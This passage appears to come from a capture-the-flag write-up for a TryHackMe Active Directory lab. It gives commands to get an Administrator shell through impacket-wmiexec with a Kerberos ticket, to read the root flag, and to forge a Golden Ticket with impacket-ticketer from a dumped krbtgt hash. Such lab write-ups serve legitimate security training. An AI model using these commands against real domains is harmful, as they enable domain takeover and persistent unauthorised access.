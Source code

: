 

## Shell as Administrator with WMIexec

```bash
export KRB5CCNAME=Administrator@cifs_HAYSTACK.THM.CORP@THM.CORP.ccache

impacket-wmiexec THM.CORP/Administrator@HAYSTACK.THM.CORP -k -no-pass
```

<figure><img src="../../../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

Now we can print the root flag.

```powershell
more C:\Users\Administrator\Desktop\root.txt
```

## Forge Golden Ticket

Once we dumped the krbtgt hash we can forge the golden ticket to escalate privilege to other parent domain, or request other ST.

{% code overflow="wrap" %}
```bash
impacket-ticketer -nthash "ce852eb247bbe2e5818cd8d66ed19ec5" -domain-sid "S-1-5-21-1966530601-3185510712-10604624" -domain "THM.corp" "Administrator" -groups 512 -user-id 500
```
{% endcode %}

